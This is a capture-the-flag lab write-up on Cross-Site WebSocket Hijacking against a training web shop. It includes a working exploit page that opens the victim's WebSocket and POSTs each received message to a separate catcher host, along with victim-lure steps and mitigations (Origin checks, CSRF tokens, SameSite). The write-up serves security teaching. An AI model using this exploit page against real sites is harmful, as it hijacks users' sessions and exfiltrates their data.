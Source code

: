 # Cowbell Shop 4 - CSWSH

## Challenge

Hijack another user WebSocket connection with an CSRF attack.

## Answer

### Explain the security problem 

* Web Sockets do not adhere to the same origin policy
* Any domain can open a web socket connection to another domain and send/receive data

### Explain your attack. \(exploit, screenshot, hacking journal\)  

Step 1-3\) Setup Hacking-Environment.  Open a Request Catcher and Theia Web IDE

Step 4\)  Changed the `change_me.html` file to:

{% code title="change\_me.html" %}
```markup
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>CSWSH</title>
  </head>
  <body>
    <h1>CSWSH</h1>
    <p>You got hacked!</p>
    <script type="text/javascript">
      var socket = new WebSocket(
        "wss://1b747ea1-3a09-4acc-8d8a-031e2fd2e267.idocker.vuln.land/socket.io/?EIO=3&transport=websocket"
      );
      socket.onopen = function(openEvent) {
        console.log(openEvent);
      };
      socket.onmessage = function(msgEvent) {
        console.log(msgEvent.data);
        var oReq = new XMLHttpRequest();
        oReq.open(
          "POST",
          "https://9a471a99-a077-47e4-a454-f7e6676acc1f.idocker.vuln.land/extractedData"
        );
        oReq.send(JSON.stringify(msgEvent.data));
      };
      socket.onerror = function(errEvent) {
        console.log(errEvent);
      };
    </script>
  </body>
</html>
```
{% endcode %}

Step 5\) Open webshop in new Incognito Tab and login in as the attacker

Step 6\) Pass the attackers url `https://16dfe2ff-d02a-4a24-8d06-21e07055a9af.idocker.vuln.land/change_me.html`  to the victim. Victim opens the url and gets the following output:  


![](../../.gitbook/assets/image%20%28377%29.png)

![](../../.gitbook/assets/image%20%28378%29.png)

Step 8\) check in the Request Catcher logs the flag received from the victim

![](../../.gitbook/assets/image%20%28383%29.png)



### Explain mitigation \(remedy\)

* Check the Origin header of the WebSocket handshake request on the server, since that header was designed to protect the server against attacker-initiated cross-site connections of victim browsers!
* Use **session-individual random tokens \(like CSRF-Tokens\)** on the handshake request and verify them on the server.
  * Embed the token into one of the HTML pages of your web application.
  * Create a REST endpoint where your client can fetch the token



### Answers

#### Are the CORS errors a problem for the attacker?

No, since WebSockets are not subordinated to CORS 

#### Explain the meaning of the errors

The access to the `/extractedData` target site from the `origin` is not allowed, since there is not Acces-Control-Allow-Origin HTTP Response Header present on the target site and therefore it violates the CORS policy

#### How do we mitigate the risk of a web socket based XSRF attack?

See above \(CSRF-Tokens with validation on server\)





## Lösung HL



```text
Use session-individual random tokens (like CSRF-Tokens) on the handshake request and verify them on the server.

Copied to clipboard
const io = require('socket.io') (server, {
    origins: ['{DOCKER_ADDRESS}'],
    transports: ['websocket']
});

oder auch SameSite, weil das gilt auch für WS
```

